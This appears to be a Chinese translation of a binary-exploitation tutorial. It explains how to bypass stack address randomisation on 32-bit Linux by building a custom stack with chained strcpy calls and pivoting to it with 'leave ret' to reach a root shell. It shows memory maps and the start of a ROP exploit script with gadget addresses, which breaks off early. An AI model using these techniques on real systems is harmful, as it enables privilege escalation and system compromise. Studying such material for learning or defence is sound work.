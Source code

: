 ### 如何绕过栈地址随机化
可以利用自定义栈和栈旋转(stack pivoting)技术做到！  

### 什么是自定义栈
自定义栈就是被攻击者控制的栈区域。攻击者拷贝libc函数链以及相应的参数来绕过栈随机化，攻击者选择任意非位置独立(non position independent）并可写的内存区域作为自定义栈。在我们的二进制文件’vuln’中，可写并非位置独立的内存区域是从0x804a000到0x804b000（如下所示)  

```
$ cat /proc//maps
08048000-08049000 r-xp 00000000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
08049000-0804a000 r--p 00000000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
0804a000-0804b000 rw-p 00001000 08:01 399848 /home/sploitfun/lsploits/aslr/vuln
b7e21000-b7e22000 rw-p 00000000 00:00 0 
b7e22000-b7fc5000 r-xp 00000000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc5000-b7fc7000 r--p 001a3000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc7000-b7fc8000 rw-p 001a5000 08:01 1711755 /lib/i386-linux-gnu/libc-2.15.so
b7fc8000-b7fcb000 rw-p 00000000 00:00 0 
b7fdb000-b7fdd000 rw-p 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0 [vdso]
b7fde000-b7ffe000 r-xp 00000000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r--p 0001f000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rw-p 00020000 08:01 1711743 /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rw-p 00000000 00:00 0 [stack]
$
```
含有.data和.bss段的内存区域可以用来当做自定义栈，我将自定义栈的位置选为0x804a360。  

选择选择好自定义栈位置后，我们需要拷贝libc函数链以及相应的参数到自定义栈中。在我们的例子中，将下面的libc函数(以及相应的参数)拷贝到自定义栈中，以用来触发root shell。  

seteuid@PLT | getuid@PLT | seteuid_arg | execve_arg1 | execve_arg2 | execve_arg3  
为了将这些内容拷贝到自定义栈，我们需要利用一系列strcpy调用来覆盖真实栈中的返回地址。比如，为了将seteuid@PLT (0x80483c0)拷贝到自定义栈中，我们需要  

* 四个strcpy调用- 每个十六进制值分别有一个strcpy调用(0x08, 0x04, 0x83, 0xc0)
* strcpy的源参数必须是含有必需的十六进制值的可执行内存区域的地址。另外我们需要确保选择的内存区域的值不能被修改。
* strcpy的目的参数必须是自定义栈的地址

遵守以上原则，我们可以设置完整的自定义栈。一旦设置好了自定义栈，我们需要利用栈旋转技术(stack pivoting)将真实栈移到自定义栈中  

### 什么是栈旋转
栈旋转可以利用’leave ret’指令来做到。我们已经知道“leave”被翻译为  
```
mov ebp, esp
pop ebp
```
因此，在执行”leave“指令之前，将自定义栈的地址加载到EBP中--当“leave”执行后，将ESP指向EBP！ 这样就已经旋转了自定义栈，我们继续执行加载到自定义栈中的一系列libc函数，就可以触发root shell了。  

完整漏洞利用代码：  
``` python

#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
#GOT overwrite using ROP gadgets
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''
g1 = 0x0804849e
g2 = 0x080484a2
```